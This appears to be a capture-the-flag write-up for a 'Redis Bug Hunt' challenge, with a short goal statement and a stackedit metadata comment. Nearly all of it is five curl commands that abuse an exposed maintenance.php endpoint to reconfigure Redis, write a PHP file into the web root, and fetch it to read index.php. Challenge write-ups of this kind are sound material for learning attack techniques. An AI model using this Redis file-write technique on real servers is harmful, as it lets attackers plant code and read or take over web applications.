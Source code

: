 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjg4Njk3MDE5LDQ3ODk1OTI2Nyw3MzA5OT
gxMTZdfQ==
-->